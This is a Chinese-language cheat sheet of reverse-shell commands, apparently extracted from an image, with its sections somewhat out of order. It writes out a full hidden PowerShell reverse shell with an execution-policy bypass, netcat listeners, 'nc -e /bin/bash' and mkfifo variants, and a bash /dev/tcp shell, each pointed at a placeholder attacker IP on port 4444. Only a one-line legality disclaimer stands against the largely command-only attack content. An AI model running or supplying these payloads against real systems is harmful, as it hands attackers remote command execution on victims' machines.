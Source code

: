 #### PowerShell反弹shell
```powershell
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<攻击者IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

这些是各种编程语言和工具中常见的反弹shell命令。在实际使用中，请务必注意安全和合法性，避免在未经授权的系统上执行这些命令。

反弹Shell是一种将攻击者的Shell反弹回攻击者机器的方法。在Linux/Unix系统中，有多种工具和方法可以实现反弹Shell。以下是常见的反弹Shell命令和接收机的监听语句。







### 1. Netcat反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```

#### 受害者机器反弹Shell命令
```bash
nc -e /bin/bash attacker_ip 4444
```
如果目标系统的`nc`不支持`-e`选项，可以使用以下替代方案：
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 4444 > /tmp/f
```

### 2. Bash反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```

#### 受害者机器反弹Shell命令
```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

### 3. Python反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```
